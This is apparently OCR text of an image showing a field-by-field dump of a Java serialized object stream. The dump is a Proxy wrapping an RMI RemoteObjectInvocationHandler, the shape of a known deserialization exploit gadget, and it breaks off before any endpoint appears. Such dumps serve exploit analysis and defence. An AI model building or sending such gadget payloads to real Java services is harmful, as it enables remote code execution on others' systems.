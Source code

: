       classAnnotations
        TC_NULL - 0x70
        TC_ENDBLOCKDATA - 0x78
      superClassDesc
        TC_CLASSDESC - 0x72
          className
            Length - 23 - 0x00 17
            Value - java.lang.reflect.Proxy - 0x6a6176612e6c616e672e7265666c6563742e50726f7879
          serialVersionUID - 0xe1 27 da 20 cc 10 43 cb
          newHandle 0x00 7e 00 01
          classDescFlags - 0x02 - SC_SERIALIZABLE
          fieldCount - 1 - 0x00 01
          Fields
            0:
              Object - L - 0x4c
              fieldName
                Length - 1 - 0x00 01
                Value - h - 0x68
              className1
                TC_STRING - 0x74
                  newHandle 0x00 7e 00 02
                  Length - 37 - 0x00 25
                  Value - Ljava/lang/reflect/InvocationHandler; - 0x4c6a6176612f6c616e672f7265666c6563742f496e766f636174696f6e48616e646c65723b
          classAnnotations
            TC_NULL - 0x70
            TC_ENDBLOCKDATA - 0x78
          superClassDesc
            TC_NULL - 0x70
    newHandle 0x00 7e 00 03
    classdata
      java.lang.reflect.Proxy
        values
          h
            (object)
              TC_OBJECT - 0x73
                TC_CLASSDESC - 0x72
                  className
                    Length - 45 - 0x00 2d
                    Value - java.rmi.server.RemoteObjectInvocationHandler - 0x6a6176612e726d692e7365727665722e52656d6f74654f626a656374496e766f636174696f6e48616e646c6572
                  serialVersionUID - 0x00 00 00 00 00 00 00 02
                  newHandle 0x00 7e 00 04
                  classDescFlags - 0x02 - SC_SERIALIZABLE
                  fieldCount - 0 - 0x00 00
                  classAnnotations
                    TC_NULL - 0x70
                    TC_ENDBLOCKDATA - 0x78
                  superClassDesc
                    TC_CLASSDESC - 0x72
                      className
                        Length - 28 - 0x00 1c
                        Value - java.rmi.server.RemoteObject - 0x6a6176612e726d692e7365727665722e52656d6f74654f626a656374
                      serialVersionUID - 0xd3 61 b4 91 0c 61 33 1e
                      newHandle 0x00 7e 00 05
                      classDescFlags - 0x03 - SC_WRITE_METHOD | SC_SERIALIZABLE
                      fieldCount - 0 - 0x00 00
                      classAnnotations
                        TC_NULL - 0x70
                        TC_ENDBLOCKDATA - 0x78
                      superClassDesc
                        TC_NULL - 0x70
                newHandle 0x00 7e 00 06
                classdata